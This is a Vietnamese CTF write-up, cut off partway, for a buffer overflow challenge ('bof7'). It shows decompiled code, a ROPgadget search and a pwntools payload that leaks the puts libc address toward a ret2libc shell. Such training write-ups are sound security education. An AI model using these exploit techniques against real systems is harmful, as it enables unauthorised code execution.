


**1. Tim lỗi**

Chạy thử chương trình ta có:



Dùng lệnh 'file' kiểm tra:

```
bof7: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=37b396094bd206b0b6fa7845eb860ac8b426b5b1, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[80]; // [rsp+0h] [rbp-50h] BYREF

  init(argc, argv, envp);
  puts("Say something: ");
  read(0, buf, 0x78uLL);
  return 0;
}
```

Hàm read() được sử dụng để đọc chuỗi đầu vào từ bàn phím và lưu vào biến buf với kích thước tối đa là 0x78 (120) ký tự nhưng biến buf được khai báo 80 byte -> Có lỗi bof.

**2. Ý tưởng**

Có thể dùng ROP nhưng ở đây sẽ thực hiện leak libc theo tên bài.
- Leak địa chỉ libc
- Thực hiện hàm system với chuỗi '/bin/sh'

**3. Khai thác**

- Leak địa chỉ libc

```
   0x00000000004011df <+34>:    lea    rax,[rbp-0x50]
   0x00000000004011e3 <+38>:    mov    edx,0x78
   0x00000000004011e8 <+43>:    mov    rsi,rax
   0x00000000004011eb <+46>:    mov    edi,0x0
   0x00000000004011f0 <+51>:    call   0x401080 <read@plt>
```

Ta thấy biến buf cách rbp 0x50. Vậy khoảng cách từ buf đến ret là 0x50 + 0x8.

Tiếp theo tận dụng GOT và PLT để leak địa chỉ hàm 'put' trong libc. Để làm việc trên thì cần tìm gadget để pop rdi ra.

```
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/Train/ret2libc$ ROPgadget --binary bof7 | grep "pop rdi"
0x0000000000401263 : pop rdi ; ret
```

Ta có được đoạn code để leak được địa chỉ hàm 'puts' như sau:

```
payload = b'a'*(0x50 + 0x8)
payload += p64(pop_rdi) + p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.sendafter(b'Say something: ', payload)
```

Sau khi leak được thì quay lại hàm main để tiếp tục khai thác



Vậy địa chỉ hàm puts đã được leak ra. Tiếp theo chỉ cần lưu về và tính toán để có địa chỉ libc

```
